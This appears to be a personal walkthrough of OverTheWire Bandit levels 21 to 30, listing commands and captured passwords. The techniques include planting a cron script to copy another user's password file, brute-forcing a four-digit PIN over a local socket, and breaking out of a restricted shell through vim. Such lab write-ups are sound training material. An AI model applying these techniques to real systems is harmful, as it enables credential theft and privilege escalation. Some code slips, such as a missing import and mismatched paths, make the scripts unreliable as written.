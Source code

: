 # Bandit21
```
cd /etc/cron.d
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
flag:Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
# Bandit22
```
cat cronjob_bandit22
cat /usr/bin/cronjob_bandit23.sh
echo I am user bandit23 | md5sum | cut -d ' ' -f 1
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```
flag:jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
# Bandit23
```
cat cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
mkdir /tmp/uwu
vim uwu.sh
```
In uwu.sh:
```
#!/bin/sh
cat /etc/bandit_pass/bandit24 > /tmp/lol2/uwu
```
```
touch uwu
cp uwu.sh  /var/spool/bandit24
```
Wait for cron execute the script <br>
flag:UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
# Bandit25
## Bash script [useful tool](https://www.shellcheck.net/)
```
#!/bin/bash                                                                                                                                                                              
 password="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ";
 al=""
 for i in {0000..9999}; do
 	echo "${password} ${i}" >> plol
 done	
 cat plol
 cat plol | nc localhost 30002 >> lal
 cat lal | uniq | grep password
```
## Python 
```python
import socket
pincode = 2000
password = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 30002))
msg=s.recv(2048)
print(msg)
while pincode < 10000:
	pincode = str(pincode).rjust(4,"0")
        message=password+' '+pincode+"\n"
        s.sendall(message.encode())
        receive = s.recv(1024)
        if "Try again" in str(receive):
            print(pincode)
            pincode = int(pincode)+1
        else:
            print(pincode)
            print(receive)
            sys.exit("exit")


```
flag:uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
# Bandit26
```
ssh bandit26@localhost -i bandit26.sshkey
```
Resize the shell

Press V to start vim
## In vim
```
:e /etc/bandit_pass/bandit26
```
## :cq to exit 

flag:5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
# Bandit27
## Continue from Bandit 26
```
:set shell=/bin/bash
:shell
```
## After get the shell
```
./bandit27-do cat /etc/bandit_pass/bandit27
```
flag:3ba3118a22e93127a4ed485be72ef5ea
# Bandit28
```
mkdir /tmp/dir
cd /tmp/dir
git clone ssh://bandit27-git@localhost/home/bandit27-git/repo
cd ./repo
cat *
``` 
flag:0ef186ac70e04ea33b4c1853d2526fa2
# Bandit29
```
mkdir /tmp/lop
cd /tmp/lop
git clone ssh://bandit28-git@localhost/home/bandit28-git/repo
cd ./repo
git log -p 
```
flag:bbc96594b4e001778eee9975372716b2
# Bandit30 [better explain](https://medium.com/@theGirlWhoEncrypts/overthewire-bandit-level-29-level-30-f9d5a4167711]
```
git branch -a
git checkout dev
cat README.md 
```



flag:5b90576bedb2cc04c86a9e924ce42faf












